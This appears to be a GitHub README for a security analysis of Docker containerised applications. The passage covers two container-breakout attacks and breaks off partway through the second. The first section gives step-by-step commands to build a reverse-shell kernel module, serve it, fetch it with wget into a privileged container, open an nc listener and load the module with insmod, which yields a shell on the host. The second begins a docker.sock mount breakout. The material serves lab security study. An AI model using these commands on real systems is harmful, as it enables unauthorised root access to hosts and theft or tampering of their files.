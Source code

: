 # Security Analysis of Containerizd Applications

> A security analysis conducted on containerised applications in virtualised environments.

## Introduction

Containerization is defined as a form of operating system virtualization, through which applications are run in isolated user spaces called containers, all using the same shared operating system (OS).The concept of Containerization is used in many fields such as DevOps, Microservice Architecture, Web servers and Database Sharding. This makes security a major concern.

This aim for this project is to conduct a Security Analysis of Containerized Applications in Virtualized Environments to check for vulnerabilities in the host Operating System by using several methods such as inspecting the Network bridge between the Virtualized and Host Operating System, Figuring Kernel Level Virtualization Errors, Creating a Malicious Application and Test a proof of concept, if the Host OS can be accessed from a container that is running in a virtualized environment.

 > Containerization Tool used for this Analysis is Docker

## Attack Vectors

### Modifying Kernel Space using --privileged flag

> This attack is to simulate Container Breakout and the process through which an attacker who has gained access of a Container running on a System can get access to a system can load a kernel module on to the Host Kernel Space through the Container to get a reverse shell session of the Host file System mounted on the root directory.

**Steps**

1. Change the directory to *reverseshell* and run the command *make* to build the Kernel File.
  ```bash
  cd reverseshell
  make
  ```
2. Start a Python Server in the *reverseshell* directory using the command:
  ```bash
  python3 -m http.server
  ```
3.  On a New Terminal Tab Run a Base container (here alpine) with a privileged flag and start a shell session in it using the command:
  ```bash
  docker run --rm --privileged -it alpine sh
  ```
4. Fetch the Kernel File from the server started in Step 2 using the command 
  ```bash
  wget http://172.17.0.1:8000/reverseshell_module.ko
  ```
5. Give Executable Permission to the Kernel File inside the Container using the command 
  ```bash
  chmod +x reverseshell_module.ko
  ```
6. On a New Terminal Start a Port listener on Port number 4444 as specified in the Kernel Module C Program using the command: 
  ```bash
  nc -nlvp 4444
  ```
7. Inside the Container shell of Step 3 write the Kernel Module into the Kernel Space using the command:
  ```bash
  insmod reverseshell_module.ko
  ```
**Result**

> Upon following the above a Shell session of the Host File System mounted on the root directory is received on the Port listener. This even provides privileges to access, read and modify files through the reverse shell session. This can be classified as a high level vulnerability.

---

### Container Breakout through Docker Socket

> This attack is to simulate how container breakout can be performed using docker.sock mount through which an attacker that has access to the Container can start another Container mounted on the host Root directory to access the Host file system.

**Step**

1. Start a Docker Container mounted on the Docker socket file at `/var/run/docker.sock` using the command:
   ```bash
    docker run --rm -it -v /var/run/docker.sock:/var/run/docker.sock alpine sh
   ```
